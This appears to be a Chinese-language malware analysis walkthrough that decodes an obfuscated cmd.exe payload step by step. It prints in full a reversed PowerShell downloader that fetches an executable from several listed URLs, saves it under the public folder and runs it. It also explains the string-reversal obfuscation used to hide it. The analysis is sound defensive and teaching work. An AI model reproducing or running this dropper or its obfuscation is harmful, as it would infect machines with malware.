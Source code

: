 在这里，我们可以看到一些结构，允许我们将有效载荷逐行分解。

```
CMd /V:ON/C
```

为了理解这一点，我们来看看这两个标志的含义

> /V:ON Enable delayed environment variable expansion
> 这允许 FOR 循环指定！变量！而不是%variable%
> 在执行时而不是输入时扩展变量。
> 
> 如果指定了/C 或/K，那么命令行的剩余部分将作为新 shell 中的立即命令来处理。如果用引号括起来，则接受由命令分隔符' & '或' && '分隔的多个命令。

所以`/V:ON`标志允许我们在命令运行时执行动态变量赋值(字符串反转谁？)和`/C`标志允许我们将多步有效负载用引号括起来，并执行由`&`或`&&`分隔的每一步。酷毙了。让我们看看由`&&`界定的有效载荷的每一步。这是有效载荷的第一步:

```
set lN= }}{hctac};kaerb;irj$ metI-ekovnI;)irj$ ,fBJ$(eliFdaolnwoD.iwY${yrt{)BKj$ ni fBJ$(hcaerof;’exe.’+UtL$+’\’+cilbup:vne$=irj$;’493' = UtL$;)’@’(tilpS.’Q/ur.engisednal.namid.www//:ptth@yn/ti.eloicsivelledonidraigli//:ptth@g/ku.oc.secivreskepsni//:ptth@C/moc.lagofj//:ptth@XCsU/eb.ynaj//:ptth’=BKj$;tneilCbeW.teN tcejbo-wen=iwY$ llehsrewop
```

这将变量`lN`赋给这个看起来在`powershell`中并涉及一些 URL 的大反转字符串的值。

```
for /L %p in (349;-1;0)
```

> FOR /L —循环遍历一系列数字

这个`for`循环遍历整数 349 到 0，在每次迭代中后退。

```
do set lI =!lI!!lN:~%p,1!
```

对于不做任何批量编码的人来说，这一步看起来很混乱，但是如果你像这样把它分开一点，就容易多了:

```
do set lI = !lI! !lN:~%p,1!
```

这就是`/V:ON`标志派上用场的地方，因为它允许我们在每次到达该行时执行变量扩展，而不是只调用一次命令。

> 变量扩展意味着替换用% or！括起来的变量！根据它的价值。
> % normal %展开只发生一次，在一行被执行之前。这意味着,%variable% expansion 具有相同的值，不管该行是否被执行多次(就像在 for 命令中)。的！耽误了！每次执行该行时都会执行扩展。

在这一行中，`lI`被设置为`lI`的当前值加上位于索引`%p`处的`lN`的当前值的子串
，大小为 1 个字符。或者，更简单地说，用一个 pythonic 表达式:

```
for p in range(349, 0, -1):
  lI = lI + lN[p]
```

所以在这种情况下，`lI`将是正确格式化的字符串，我们将遍历`lN`并将其字符以相反的顺序放入`lI`。

```
if %p equ 0
  call %lI:~-350%
```
